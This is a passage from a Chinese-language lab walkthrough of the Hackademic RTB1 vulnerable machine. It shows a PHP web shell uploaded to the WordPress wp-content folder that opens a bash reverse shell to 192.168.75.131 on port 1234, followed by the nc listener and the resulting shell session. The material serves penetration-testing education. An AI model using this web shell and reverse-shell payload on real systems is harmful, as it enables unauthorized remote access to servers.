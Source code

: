 2. 上传getshell.php
    
    ![image.png](image%205.png)
    
    文件内容是：
    
    ```php
    // getshell.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.75.131/1234 0>&1'"); ?>
    ```
    
    上传成功,并且返回路径 `/Hackademic_RTB1/wp-content/getshell.php`
    
3. 反弹shell
    
    首先Kali先开启监听，监听`1234`端口
    
    ```php
    nc -lvp 1234                             
    listening on [any] 1234 ...
    ```
    
    再访问`/Hackademic_RTB1/wp-content/getshell.php`
    
    最后查看kali，发现反弹shell成功
    
    ```php
    istening on [any] 1234 ...
    192.168.75.132: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.132] 49339
    bash: no job control in this shell
    bash-4.0$ ls
    ls
    getshell.php
    getshell_01.php
    plugins
    themes
    bash-4.0$ 
    ```
    
